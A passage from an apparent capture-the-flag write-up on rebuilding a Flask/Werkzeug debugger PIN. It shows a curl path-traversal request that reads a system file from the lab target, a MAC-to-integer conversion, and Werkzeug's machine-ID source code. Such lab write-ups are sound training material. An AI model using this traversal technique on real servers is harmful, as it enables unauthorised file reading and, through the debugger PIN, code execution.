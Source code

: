 The MAC will also be in `/sys/class/net/[device id]/address`. If I don’t know
the device id, I can take some guesses and it comes back from `eth0`:

    
    
    oxdf@hacky$ curl --path-as-is --ignore-content-length http://10.10.11.164/uploads/..//sys/class/net/eth0/address
    02:42:ac:11:00:08
    

I’ll convert that to a base-10 int in Python by adding `0x` to the front and
removing the `:`:

    
    
    oxdf@hacky$ python -c "print(0x0242ac110008)"
    2485377892360
    

Finally, I need the result of `get_machine_id`. The blogs describe this as:

> read the value in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` and
> return directly if there is, sometimes it might be required to append a
> piece of information within `/proc/self/cgroup` that you find at the end of
> the first line (after the third slash)

I find the actual code more clear:

    
    
    def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
        global _machine_id
    
        if _machine_id is not None:
            return _machine_id
    
        def _generate() -> t.Optional[t.Union[str, bytes]]:
            linux = b""
    
            # machine-id is stable across boots, boot_id is not.
            for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
                try:
                    with open(filename, "rb") as f:
                        value = f.readline().strip()
                except OSError:
                    continue
    
                if value:
                    linux += value
                    break
    
            # Containers share the same machine id, add some cgroup
            # information. This is used outside containers too but should be
            # relatively stable across boots.
            try:
                with open("/proc/self/cgroup", "rb") as f:
                    linux += f.readline().strip().rpartition(b"/")[2]
            except OSError:
                pass
    